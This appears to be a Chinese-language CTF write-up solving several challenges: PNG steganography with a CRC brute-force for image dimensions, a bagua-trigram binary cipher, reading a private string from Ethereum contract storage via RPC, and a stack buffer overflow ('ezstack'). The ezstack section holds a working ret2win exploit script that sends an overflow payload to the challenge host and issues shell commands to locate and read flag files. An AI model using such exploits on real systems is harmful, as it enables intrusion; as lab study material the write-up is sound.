| 题目类型 | 题目名 | 难度 |
| :--- | :--- | :--- |
| 第一天 |||
| Misc | AAA 真·签到 | 签到 |
| Web | Hidden Secret | Easy |
| Crypto | BAGUA | Easy |
| Crypto | dlp | Normal |
| Reverse | Assembly_recovery | Normal |
| Misc | 新年快乐 | Normal |
| 第二天 |||
| Blockchain | CVE-2025-55182 | Normal |
| Reverse | nyah | Normal |
| Blockchain | WEBWEBWEB | Normal |
| Crypto | double_crypto | Easy |
| Misc | 我是谁? | Easy |
| Forensics | Secret in Chatting | Hard |
| 第三天 |||
| Reverse | 入 | Easy |
| Misc | 猜猜数字喵 | Hard |
| Pwn | ezstack | Easy |
| Pwn | ezstring | Easy |
| Pwn | baseh | Normal |
| Pwn | nopnopnop | Normal |


# 题目：

---

## AAA 真签到

题目说明了：1337 端口对应为进程通信 TCP 转发服务，请通过 Netcat (nc) 及 其他 TCP 通讯工具 进行访问

我首先尝试使用虚拟机的 nc，并打开了桥接模式，但是报错了：

```bash
feng-gjsnw@feng-gjsnw-VMware-Virtual-Platform:~/桌面/$ nc ctf-2.xeed.run 32290
nc: getaddrinfo for host "ctf-2.xeed.run" port 32290: Temporary failure in name resolution
```

考虑到我对 Linux 还没那么熟悉，我突然想到了 python 也能实现类似功能，于是将 Containers 的端口扔给 AI 写一个脚本连接一下

```python
import socket

HOST = "ctf-2.xeed.run"
PORT = 32290

s = socket.create_connection((HOST, PORT))

def recv():
    data = s.recv(4096)
    print(data.decode(errors="ignore"), end="")
    return data

def sendline(x):
    if isinstance(x, str):
        x = x.encode()
    s.sendall(x + b"\n")

recv()

# 根据题目提示在这里 sendline(...)
# sendline("answer")

s.close()
```

运行后，显示如下界面：



然后跟着操作即可




于是得到flag:

```
flag{937ec5ec-c857-49b8-be97-6a50e0e232d1}
```

---

## 新年快乐

附件下载之后是一个图片


尝试扫描，出现一下内容：

```
口令由三部分组成，每一部分会标着 Partx，告诉你这是第几部分
拿到口令后去支付宝里面领取口令红包即可
如果没有思路，可以看看 Hello-CTF 或者 CTF-Wiki 的 png 题目做题方法
请不要在题解公开之前与他人交流思路和答案哦
提前祝你新年快乐 ٩(•̤̀ᵕ•̤́๑)ᵎᵎᵎᵎ
```

除此之外，没有任何提示了。考虑到只有一个图片文件，我突然猜想，是否图片文件里面藏着flag？

这里使用了DiskGenius进行文件数据查看：


但是光拿到数据，我还没什么思路，于是在网上搜了搜文章：

[CTF MISC图片题知识点](https://blog.csdn.net/weixin_45696568/article/details/116082336)

[PNG 图片文件解读](https://zhuanlan.zhihu.com/p/397397536)

文章首先提到了图片属性中可能藏有的备注，打开后看到


使用十六进制编码并转ASCII，得到了：
```
50 61 72 74 33 3a 20 48 33 70 70 69
 P  a  r  t  3  :     H  3  p  p  i
```

---

根据文章，并问了一下AI，我继续总结了一下文件头：
```
89 50 4E 47 0D 0A 1A 0A => PNG 文件头，用于识别这个文件为PNG类型
00 00 00 0D => chunk数据长度，which = 13,故IHDR 数据区长度为13字节
49 48 44 52 => IHDR是一种PNG图像头块，存放着一些图片的基础属性
00 00 02 58 | 00 00 02 58 => 图片宽度 | 图片高度
08 06 => 8bit depth | 06表示使用RGBA颜色模式(RGB + Alpha)
00 00 00 => 压缩方式 | 滤波方式 | 隔行扫描方式
09 B9 A0 38 => IHDA 的 CRC校验值
......
```

在[PNG 图片文件解读](https://zhuanlan.zhihu.com/p/397397536)的文章里面，有提到修改图片宽高，而我刚好拿到了数据，不妨先尝试尝试修改长宽：


这里实际修改换成了WinHex，原因是突然发现DiskGenius需要毛爷爷才能有这个修改功能😭

然后......


我估计是我初步弄的太过了，由于文章提到了 CRC 的值和长宽高有关，同时还给出了一个爆破代码：
```python
import zlib
import struct

# 同时爆破宽度和高度
filename = "misc32.png"
with open(filename, 'rb') as f:
    all_b = f.read()
    data = bytearray(all_b[12:29])
    n = 4095
    for w in range(n):
        width = bytearray(struct.pack('>i', w))
        for h in range(n):
            height = bytearray(struct.pack('>i', h))
            for x in range(4):
                data[x+4] = width[x]
                data[x+8] = height[x]
            crc32result = zlib.crc32(data)
            #替换成图片的crc
            if crc32result == 0xE14A4C0B:
                print("宽为：", end = '')
                print(width, end = ' ')
                print(int.from_bytes(width, byteorder='big'))
                print("高为：", end = '')
                print(height, end = ' ')
                print(int.from_bytes(height, byteorder='big'))

```

不妨先尝试一下？这里替换一下
```python
if crc32result == 0xE14A4C0B
为
if crc32result == 0x09B9A038
```
输出：
```bash
E:\ctf\20260529\misc\新年快乐\201813_2026NewYearChallenge>py test.py
宽为：bytearray(b'\x00\x00\x02X') 600
高为：bytearray(b'\x00\x00\x02\xb2') 690
```

于是做修改：


这是图片变成了：


于是，我们拿到了**Part 1: 2026**

最后，根据文章，我分析了文件尾部：


我查询到PNG 正常结尾是 IEND chunk。它长这样：
```
00 00 00 00 49 45 4E 44 AE 42 60 82
```
显然我们文件尾部还多了一串内容，且右边也能看到 **UGFydDI6IEQ0eURheQ==** 这样的字符。

询问AI，这是一个Base64,解码后得到
```
Part2: D4yDay
```

组合起来，得到
```
flag{2026D4yDayH3ppi}
```

---


## BAGUA

题目引言：
```
西方的二进制数学的发明者莱布尼茨，从中国的八卦图当中受到启发，演绎并推论出了数学矩阵，
最后创造的二进制数学。二进制数学的诞生为计算机的发明奠定了理论基础。而计算机现在改变了
我们整个世界，改变了我们生活，而他的源头却是来自于八卦图。现在，给你一组由八卦图方位
组成的密文，你能破解出其中的含义吗？
```

附件密文：
```
兑震艮 兑兑坤 兑坤坎 兑震巽 兑巽巽 坎坤艮 震艮坎 兑兑艮 震离坤 兑艮艮 兑巽坎 坎乾巽 坎坤艮 震离坤 兑震巽 兑离坎 兑坤坎 坎乾巽 坎兑坤 震艮巽 兑坎坎 兑坤艮 兑兑艮 震艮坎 兑巽艮 坎乾巽 震艮坎 震离艮 震巽坤 震离巽 兑乾坎
```

引言里面提到了二进制，那大概率我们需要将八卦与二进制对应上：

这里找了一个八卦图，尝试编码：

```
乾 = 111
兑 = 011
离 = 101
震 = 001
巽 = 110
坎 = 010
艮 = 100
坤 = 000
```

得到
```
011001100 011011000 011000010 011001110 011110110 010000100 001100010 011011100 001101000 011100100 011110010 010111110 010000100 001101000 011001110 011101010 011000010 010111110 010011000 001100110 011010010 011000100 011011100 001100010 011110100 010111110 001100010 001101100 001110000 001101110 011111010
```

注意到所有情况下结尾，头部都有0，如果是ASCII编码，那大概率其中有一个是用于补位的，于是尝试
```python
cipher = """兑震艮 兑兑坤 兑坤坎 兑震巽 兑巽巽 坎坤艮 震艮坎 兑兑艮 震离坤 兑艮艮 兑巽坎 坎乾巽 坎坤艮 震离坤 兑震巽 兑离坎 兑坤坎 坎乾巽 坎兑坤 震艮巽 兑坎坎 兑坤艮 兑兑艮 震艮坎 兑巽艮 坎乾巽 震艮坎 震离艮 震巽坤 震离巽 兑乾坎"""

mp = {
    "乾": "111",
    "兑": "011",
    "离": "101",
    "震": "001",
    "巽": "110",
    "坎": "010",
    "艮": "100",
    "坤": "000",
}

groups = []

for item in cipher.split():
    bits = "".join(mp[ch] for ch in item)
    groups.append(bits)

print("[+] 9位分组：")
print(" ".join(groups))

print("[+] 去掉每组开头的0：")
res1 = ""
for bits in groups:
    b = bits[1:]
    res1 += chr(int(b, 2))
print(res1)

print("[+] 去掉每组结尾的0：")
res2 = ""
for bits in groups:
    b = bits[:-1]
    res2 += chr(int(b, 2))
print(res2)
```
最后得到：

```text
flag{B1n4ry_B4gua_L3ibn1z_1687}
```

---

## Hidden Secret

题目：

Luminoria 在自己的博客[https://bili33.top](https://bili33.top)中放了一个秘密，

据说只有机器人才能找到这个秘密，试问：你是机器人吗？

---c

## WEBWEBWEB

获取到靶机地址后尝试curl,获得了以下内容：
```
{
  "address":"0x41414114641838DE9b0be74fdF5f6492d5e97F94",
  "privateKey":"0x4b7536b41dbd7c7727f0dd0dfdb4521e9637be589788d6fa49062c3d789b4544",
  "chalAddress":"0x5fbdb2315678afecb367f032d93f642f64180aa3",
  "fundingTxHash":"0xd6a7ffe0e0ae32a9e456ba1906e50cabbbdef72ccf34e8cf030cdf17a8976efb",
  "fundingAmountWei":"1000000000000000000",
  "chainId":31337,
  "rpcUrl":"/"
}
```

区块链是一个常人都不怎么接触的东西，所以本题的解题极大依赖 ChatGPT 了，但是不妨来学一下相关内容：

这里我先去看了**3B1B**的视频[【官方双语】想知道比特币（和其他加密货币）的原理吗？](https://www.bilibili.com/video/BV11x411i72w/?spm_id_from=333.337.search-card.all.click&vd_source=9a12fa4360c14cdf5412031aa7c3d044)，了解了加密货币的原理。

回到题目，GPT指出:
```
address <=> 钱包地址，也叫EOA（Externally Owned Account）
privateKey <=> 控制该钱包的私钥
chalAddress <=> 挑战合约地址
fundingAmountWei <=> 换算1 ETH，这是题目给的启动资金
chainId <=> 本地链
```

先说合约：

所谓合约，其实是一种代码，如：
```
甲方付款
↓
代码自动执行
↓
乙方收款
```
这种代码使用的语言叫做**Solidity**,它其实是：给 EVM（以太坊虚拟机）编程的语言。

CTF 中，通常提供“挑战合约”：

挑战合约一般形如：
```
contract Setup {
    Challenge public challenge;

    constructor() payable {
        challenge = new Challenge();
    }

    function isSolved() public view returns(bool){
        return challenge.solved();
    }
}
```

其中胜利条件为:
```
function isSolved()
或
bool public solved;
```

例子：

签到题：
```
bool public solved;

function solve() public {
    solved = true;
}
```

把 Challenge 钱转空：
```
function isSolved() public view returns(bool){
    return address(challenge).balance == 0;
}
```

拿到 owner 权限：
```
function isSolved() public view returns(bool){
    return owner == msg.sender;
}
```

再说区块链（存储与访问层面）：

ChatGPT指出：

> 可以把区块链节点理解成：MySQL服务器

> RPC 就是：数据库API

我们可以发送如：
```
{
  "jsonrpc":"2.0",
  "id":1,
  "method":"eth_getBalance",
  "params":[
    "0x41414114641838DE9b0be74fdF5f6492d5e97F94",
    "latest"
  ]
}
```
返回
```
{
  "result":"0xde0b6b3a7640000"
}
```
表示 1 ETH

就像使用 SQL 查询一样:
```
SELECT balance
FROM users
WHERE address='0x4141...';
```

这里附上一些常见RPC代码形式：
```python
eth_getBalance # 查询余额

eth_getTransactionByHash # 查询交易

eth_call # 调用函数

eth_getStorageAt # 读取Storage

# 例如：

    # Solidity 将 answer 放入 slot 0
    contract Demo {
        uint256 answer = 42;
    }

    # 读取数据
    eth_getStorageAt(
        contract,
        0
    )
    #返回 0x2a ==> 42

# python示例：
import requests

RPC = "http://ctf-2.xeed.run:32052/"

payload = {
    "jsonrpc":"2.0",
    "id":1,
    "method":"eth_getStorageAt",
    "params":[
        "0x5fbdb2315678afecb367f032d93f642f64180aa3",
        "0x0",
        "latest"
    ]
}

r = requests.post(RPC,json=payload)

print(r.json())
```

本题的本质只有一句话：
> 开发者把秘密存进了一个全世界都能读取的公开数据库(区块链)，然后误以为 private 能隐藏它；而你只是按照区块链规则把它读了出来。

从攻击视角来看，甚至没有"攻击"任何东西,因为：
```
区块链 = 公开数据库
私钥 = 修改权限
storage = 数据库存储区
private ≠ 保密
```

我们需要尝试读取区块链数据：

题目已经给出challenge地址，所以利用
```python
eth_getStorageAt(
    chalAddress,
    0
)
```
读取到了 slot 0，结果是 0x55 = 85 = 42 * 2 + 1

（吐槽ChatGPT的一段原话：大家都会想到：42来自《银河系漫游指南》。The Hitchhiker's Guide to the Galaxy）我就问，谁想得到。

对于数据存储，我查了一下资料：

经典以太坊区块结构图：
```
Block N
│
├── Header（区块头）
│   ├── Parent Hash
│   ├── State Root
│   ├── Tx Root
│   ├── Receipt Root
│   ├── Timestamp
│   ├── Gas Used
│   └── ...
│
├── Transactions(需要执行的操作)
│   ├── Tx1
│   ├── Tx2
│   ├── Tx3
│   └── ...
│
└── Receipts
    ├── Receipt1
    ├── Receipt2
    └── ...
```

合约结构图
```
Contract
│
├── Code
│   ├── deposit()
│   ├── withdraw()
│   └── solve()
│
└── Storage
    │
    ├── slot0
    │     0x55
    │
    ├── slot1
    │     owner
    │
    ├── slot2
    │     balance
    │
    └── ...
```

以太坊存储模型：
```
State
│
├── 地址A(EOA)
│     balance
│
├── 地址B(EOA)
│     balance
│
├── 合约C
│     code
│     storage
│
└── 合约D
      code
      storage
```

可以看到实际存储slot的地方在Contract。有没有感觉很奇怪？合约存数据？

其实是这样的：

事实上，在以太坊中，一个合约由两部分组成：

```
Contract
├── Code（代码）
└── Storage（状态数据）
```

当用户发送 Transaction 调用合约时，这笔 Transaction 会被矿工（或验证者）打包进 Block。

随后，全网节点会按照 Block 中记录的 Transaction 顺序执行合约代码，并修改对应的 Storage。

每一个slot会存放真实数据。但是当数据过于庞大，超过了slot 的存储范围，亦或者数据位动态类型，slot 中则会存放长度等元数据，真实内容从 keccak256(slot编号) 开始存放。

所以要区分开：Block记录操作日志，Storage保存合约状态

回到题目，我们已经知道了Contract中slot0中有42这个提示了，也就是告诉我们要利用slot0的地址+合约地址查询slot0所映射的大数据块。

也就是定位一个数据需要：
```
(合约地址, slot编号)
==>
eth_getStorageAt(
    chalAddress,
    slot
)
```
因为flag位于slot 0

其真实位置 = keccak256(0)开始的位置

综上，有了访问代码：
```python
import math
import requests
from Crypto.Hash import keccak

RPC = "http://ctf-2.xeed.run:32052/"
CHAL = "0x5fbdb2315678afecb367f032d93f642f64180aa3"

def rpc(method, params):
    r = requests.post(RPC, json={
        "jsonrpc": "2.0",
        "id": 1,
        "method": method,
        "params": params
    })
    j = r.json()
    if "error" in j:
        raise Exception(j["error"])
    return j["result"]

def keccak256(data: bytes) -> bytes:
    k = keccak.new(digest_bits=256)
    k.update(data)
    return k.digest()

# 读取 slot 0
slot = 0
slot_value = rpc("eth_getStorageAt", [CHAL, hex(slot), "latest"])
v = int(slot_value, 16)

print("[slot 0]", slot_value)
print("[int]", v)

# Solidity 长 string / bytes:
# slot 中存 len * 2 + 1
if v & 1 == 1:
    length = (v - 1) // 2
    print("[+] dynamic bytes/string length =", length)

    base = int.from_bytes(keccak256(slot.to_bytes(32, "big")), "big")
    print("[+] data starts at slot =", hex(base))

    data = b""
    for i in range(math.ceil(length / 32)):
        word = rpc("eth_getStorageAt", [CHAL, hex(base + i), "latest"])
        print(f"[data slot {i}]", word)
        data += bytes.fromhex(word[2:])

    secret = data[:length]

    print("\n[raw bytes]")
    print(secret)

    print("\n[ascii]")
    print(secret.decode(errors="replace"))

else:
    print("[-] slot 0 does not look like long string/bytes")
```

<line>

## ezstack

使用 IDA 打开程序，Shift + F12 搜字符串套转到主逻辑函数部分：



这里看到ReadingBuffer的大小只有112，没有做防溢出保护

然后程序为64位程序



所以我们构造一个这样的栈布局实现入侵：

<padding expand="16">


</padding>

即通过写入112个A字符写到[rbp+0]的位置，然后在[rbp+8]的位置放入一个任意地址的retn指令实现linux 64位程序所需要的16位对齐，再在[rbp+16]的位置放入evil函数的地址即可完成栈溢出攻击。

再查询evil的地址：



于是有了以下代码：
```python
import socket
import struct
import time

HOST = "ctf-2.xeed.run"
PORT = 30832

def p64(x):
    return struct.pack("<Q", x)

ret = 0x400506
evil = 0x400507

payload = b"A" * 120
payload += p64(ret)
payload += p64(evil)

s = socket.create_connection((HOST, PORT))
s.settimeout(2)

# 接收题目提示
try:
    data = s.recv(4096)
    print(data.decode(errors="ignore"), end="")
except:
    pass

# 发送溢出 payload
s.sendall(payload + b"\n")

time.sleep(0.2)

# 给 shell 发命令
cmds = [
    b"id\n",
    b"pwd\n",
    b"ls -la\n",
    b"cat flag 2>/dev/null\n",
    b"cat flag.txt 2>/dev/null\n",
    b"cat /flag 2>/dev/null\n",
    b"cat /flag.txt 2>/dev/null\n",
    b"find / -name '*flag*' 2>/dev/null\n",
]

for cmd in cmds:
    s.sendall(cmd)
    time.sleep(0.1)

# 持续接收输出
while True:
    try:
        data = s.recv(4096)
        if not data:
            break
        print(data.decode(errors="ignore"), end="")
    except socket.timeout:
        break
```

flag截图：

